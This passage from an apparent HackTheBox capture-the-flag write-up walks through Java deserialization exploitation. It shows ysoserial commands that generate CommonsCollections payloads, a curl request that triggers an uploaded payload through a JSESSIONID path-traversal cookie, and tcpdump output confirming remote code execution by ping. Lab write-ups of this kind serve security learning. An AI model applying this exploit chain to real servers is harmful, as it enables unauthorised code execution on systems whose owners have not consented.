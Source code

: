 I've used [YSoSerial](https://github.com/frohoff/ysoserial) before (see
[Fatty](/htb-fatty.md#ysoserial) and
[Arkham](/htb-arkham.md#jsf-deserialization-background)) to
create malicious Java serialized payloads. I'll use that here. It has a
bunch of different payload options. What works will depend on how the
target is configured. I've found it's always best to start with
`CommonsCollections` (there are five them).

I'll start with a simple `ping` to myself to see if I can get RCE.



    root@kali# java -jar /opt/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 'ping -c 1 10.10.14.15' > ping.session



Now I'll upload that through the site, and, with `tcpdump` listening,
send the attack:



    root@kali# curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/ping"
    <!doctype.md>.md><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> java.lang.Override missing element entrySet</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet
            java.base&#47;sun.reflect.annotation.AnnotationInvocationHandler.invoke(AnnotationInvocationHandler.java:83)
            com.sun.proxy.$Proxy5.entrySet(Unknown Source)
    ...[snip]...



It crashes, but I don't get a ping. The crash is expected. The payload
won't have the data the program expects, and will make it crash. But not
getting a ping means the payload didn't work.

I'll repeat the process with `CommonsCollections2`, and I do get a ping:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:46:24.215875 IP 10.10.10.205 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
    09:46:24.215931 IP 10.10.14.15 > 10.10.10.205: ICMP echo reply, id 1, seq 1, length 64



I have RCE, and know a payload that works.
